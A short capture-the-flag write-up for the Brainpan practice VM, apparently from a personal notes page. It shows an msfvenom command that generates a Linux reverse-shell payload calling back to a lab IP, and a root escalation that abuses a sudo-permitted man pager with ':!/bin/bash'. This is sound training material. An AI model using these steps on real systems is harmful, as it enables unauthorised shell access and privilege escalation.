 Looking at the `checksrv.sh` file, the following line indicates that this is actually running the program through wine on linux with a bash script:
`	/usr/bin/wine /home/puck/web/bin/brainpan.exe &`

The new payload can be generated with `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.6.0.114 LPORT=4444 -f python -b='\x00'`


Running `uname -a` shows us the following:

```
Linux brainpan 3.5.0-25-generic #39-Ubuntu SMP Mon Feb 25 19:02:34 UTC 2013 i686 i686 i686 GNU/Linux
```

# Privilege Escalation

Running `sudo -l` shows us sudoer information:
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util

```

We can't read the util, but there is a `manual` function that appears to just add our command to the `man` command.

man allows for [command execution](https://gtfobins.github.io/gtfobins/man/), which means we can simply run `sudo /home/anansi/bin/anansi_util manual man` and then type in `:!/bin/bash`

We now are root

# Lessons Learned

The `linux/x86/shell_reverse_tcp` and `windows/shell_reverse_tcp` payloads
may work much better than
the `linux/x86/shell/reverse_tcp` and `windows/shell/reverse_tcp` payloads

Basically, try different payloads